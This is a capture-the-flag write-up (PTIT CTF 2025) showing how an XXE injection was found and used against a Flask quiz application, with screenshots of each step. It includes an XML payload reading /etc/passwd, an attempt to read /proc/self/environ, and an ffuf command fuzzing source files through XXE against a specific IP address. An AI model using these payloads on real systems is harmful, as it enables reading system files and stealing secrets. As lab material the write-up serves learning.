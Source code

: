 1. Visit the website

<img width="1920" height="1033" alt="image" src="https://github.com/user-attachments/assets/87ff5397-489d-4cc0-8bf0-b635a4e545f7" />  

* The request to send when choosing the answer is as follows:

<img width="1284" height="734" alt="image" src="https://github.com/user-attachments/assets/bf0e4515-5c0d-476f-afd4-9d9289cd9332" />  

2. Fuzzing
* Right click on the request and select do active scan

<img width="1534" height="977" alt="image" src="https://github.com/user-attachments/assets/63afcba4-d38b-4f59-b307-8146e78ee904" />  

* Looking at the logger area, we see that the application supports `content-type: application/xml`

<img width="1919" height="1058" alt="image" src="https://github.com/user-attachments/assets/69f512d3-215e-4e22-a74e-4ca02f003f41" />  

* From here we have one more vector to exploit related to xml which is XXE Injection

3. Convert request format from Json to XML

<img width="1203" height="878" alt="image" src="https://github.com/user-attachments/assets/6ee1200a-8b98-44cc-b52c-0fb02550aaad" />  

4. Read the file via XXE  
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
    <question_text>PTIT CTF 2025</question_text>
    <answer>&xxe;</answer>
</root>
```

<img width="1522" height="882" alt="image" src="https://github.com/user-attachments/assets/642ee4e3-9e20-47dd-b529-75bf7e93c576" />  

5. Check the running process's environment variables at `/proc/self/environ`  
We don't know where the flag file is located, it needs to be recon.  
We can see if the flag is stored in the environment variable of the running flask process, by reading the file: `/proc/self/environ`  

<img width="1532" height="870" alt="image" src="https://github.com/user-attachments/assets/c9a38fe1-cd4e-43f6-9bfa-2739d496dce1" />  

⇒ We see a syntax error for the output containing non-alphabetic bytes.  

6. Use wordlist to find files in source code  
We also know that the path `/proc/self/cwd/` will contain the source code of the current process  
But because we don't know the file names, we need to fuzz based on the wordlist using the FUFF tool
```
ffuf -u "http://103.197.184.163:5004/submit_answer" -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///proc/self/cwd/FUZZ"> ]>
<root>
    <question_text>PTIT CTF 2025</question_text>
    <answer>&xxe;</answer>
</root>
' -w wordlists/dirsearch.txt -fr "None"
```
* The `-fr` option allows to ignore return responses containing the word None
